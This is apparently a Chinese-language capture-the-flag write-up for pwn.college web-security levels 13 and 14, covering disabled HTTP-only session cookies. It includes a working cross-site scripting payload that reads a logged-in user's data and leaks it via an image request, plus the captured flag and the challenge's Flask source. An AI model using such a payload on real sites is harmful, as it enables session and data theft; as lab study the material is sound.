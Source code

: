 ```
```
这是关闭了 Flask 应用程序的 HTTP-only 会话 cookie 选项
> HTTP-only 会话 cookie 选项是一个安全机制，它可以防止恶意脚本（如跨站脚本攻击）从浏览器中窃取会话 cookie。当启用 HTTP-only 选项时，浏览器将禁止 JavaScript 访问会话 cookie，这意味着即使恶意脚本能够执行，也无法访问该 cookie。

> 如果关闭了 Flask 应用程序的 HTTP-only 会话 cookie 选项，会话 cookie 将变得更加容易受到攻击。例如，恶意脚本可以通过 JavaScript 访问会话 cookie，然后将其发送到攻击者的服务器，从而劫持用户的会话。此外，如果会话 cookie 包含敏感信息，例如用户名和密码，攻击者可以轻松地窃取这些信息，然后用于恶意目的。

这也就是level13的核心了。注意，此时我们不需要服务器了，因为并不需要从`hacker`访问了

然后差不多，就是写一个请求，把获取cookie的语句塞到里面即可,这个javascript的讲解在[discord](https://discord.com/channels/750635557666816031/1097285456460251156/1097312950072643654)上有，一定要去看一看这个，十分的清晰！
```
import requests

r = requests.get('http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=<script>var xhttp = new XMLHttpRequest();xhttp.open("GET","http://challenge.localhost/info?user=1",true);xhttp.onreadystatechange = function(){document.getElementById("n").src = xhttp.responseText;};xhttp.send();</script><img src = "n" id="n">')
print(r.content.decode())
```
发现flag在get里面，我震惊
```
"GET /flag%20pwn.college{Iw5PLCtom_udyT1-ZfKq0ziXEhh.dlTOzMDL2QjMyMzW} HTTP/1.1" 404 -
```
## level14 Exploit a cross site scripting vulnerability to exfilitrate user data
```
def level14():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/info":
        session_user_id = int(session.get("user", -1))
        session_user = db.execute("SELECT * FROM users WHERE rowid = ?", (session_user_id,)).fetchone()

        request_user_id = int(request.args.get("user", session_user_id))
        request_user = db.execute("SELECT * FROM users WHERE rowid = ?", (request_user_id,)).fetchone()
        assert request_user, "Invalid `user`"

        info = [request_user["username"]]
        if request_user_id == session_user_id:
            info.append(request_user["password"])
        return " ".join(info) + "\n"

```